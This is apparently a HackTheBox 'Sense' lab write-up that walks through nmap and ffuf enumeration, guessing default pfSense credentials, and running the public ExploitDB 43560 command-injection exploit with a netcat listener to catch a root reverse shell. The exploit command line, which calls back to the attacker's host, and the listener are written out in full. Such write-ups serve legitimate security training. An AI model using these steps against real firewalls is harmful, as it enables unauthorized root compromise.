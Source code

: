 # HackTheBox | Sense

## Initial TCP Nmap Scan

```
Nmap scan report for sense.htb (10.10.10.60)
Host is up (0.072s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

## Full TCP Nmap Scan

```
Nmap scan report for 10.10.10.60
Host is up (0.081s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

## Initial Thoughts Based On Nmap Scans

Looking at the ports we are given `HTTP 80` and `HTTPS 443`. Looking at port 80 on the Nmap scan, we can see that it tried to do some sort of redirect to `https://sense.htb`. This most likely means that if we were to just type in `http://10.10.10.60`, we will get redirected to `https://10.10.10.60`. So in reality, we may just be looking at one port to enumerate which is `HTTPS 443`. Regardless, it is a website we are going to enumerate. Similar to other boxes where we enumerated web services, we will be running a `Gobuster/ffuf` against the web service to see if we can find any other directories, and then we will manually enumerate for any service versions or anything else of interest. With that, let's get into enumerating HTTP/HTTPS.

## 80/443 - HTTP/HTTPS | Enumeration 

Going to `https://10.10.10.60` we are given a web service that is running `pfSense`. 

![image-20210614124911094](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614124911094.png)

`pfSense` is a firewall/router computer software that runs on `FreeBSD`. Before I go and start to manually enumerate this service, I start `ffuf` to scan for any directories/files.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ -e .txt,.pdf,.html
```

The `-w` flag specifies a path to a wordlist, `-u` is the target URL, and `-e` specifies extensions you want to use separated by commas. Since I am not completely sure what this service has in terms of file extensions, I just used some file extensions that may be more universal to any web service such as `.txt, .pdf, and .html`. 

While `ffuf` is running, I decided to go and try to search up "pfSense default credentials" on Google. The default credentials for pfSense is `admin:pfsense`. I tried these credentials against the login page and I got nothing. I started trying more credentials such as `admin:admin` `admin:password`, etc. and got nothing. I did get something out of it though which is the fact that my IP address got banned. I started sitting there for quite a bit wondering what the hell happened but turns out my IP was banned. Probably not the smartest idea to try to go and attempt a hefty amount of failed login requests against a firewall. I went ahead and reset the box and ran my `ffuf` again and just tried looking at source code while `ffuf` was scanning. I didn't really find anything of interest but while I was searching around for awhile I did find two interesting files that `ffuf` discovered which is `changelog.txt` and `system-users.txt`. Navigating to `https://10.10.10.60/changelog.txt` shows the following output:

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

We see some information about a security changelog. Seems that they have patched 2 out of 3 vulnerabilities so most likely this service is still vulnerable. Navigating to `https://10.10.10.60/system-users.txt` shows the following output:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

We get some credentials which is `Rohit:company defaults`. Company defaults obviously isn't the password but now we at least have a username we can test. I tried credentials such as `rohit:password` and things of that nature, but I stayed vigilant since I know if I do too many failed login attempts my IP is gonna get banned again. I decided to try `rohit:pfsense` and it worked!

![image-20210614132049905](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614132049905.png)

Looking at the pfSense dashboard we are given a version number `2.1.3-RELEASE`. Noting that the `changelog.txt` file mentioned they did not patch all the vulnerabilities, let's go ahead and do a Google search for "pfSense 2.1.3 exploit" I find an [ExploitDB](https://www.exploit-db.com/exploits/43560) page for "pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection". I go ahead and download this Python script to my host and run this command:

```
python3 43560.py help
```

```
root@kali-[~/htb/sense/exploits]python3 43560.py help
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME] [--password PASSWORD]
43560.py: error: unrecognized arguments: help
```

We can see how to properly use this script. it asks for `--rhost, --lhost, --lport, --username, and --password`. We have all of these so let's put them in.

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.36 --lport 1337 --username rohit --password pfsense
```

Before we execute this script, let's set up a Netcat listener on port 1337.

```
nc -lvnp 1337
```

```
root@kali-[~]nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.60] 53182
sh: can't access tty; job control turned off
# whoami && id
root
uid=0(root) gid=0(wheel) groups=0(wheel)
```

And we are the root user! No need for privilege escalation on this box since this application must have been running as the root user. If you want to go more into detail on how and why this exploit works, I would highly suggest looking into [IppSec's walkthrough of Sense](https://www.youtube.com/watch?v=d2nVDoVr0jE) as they manually exploit this vulnerability we did.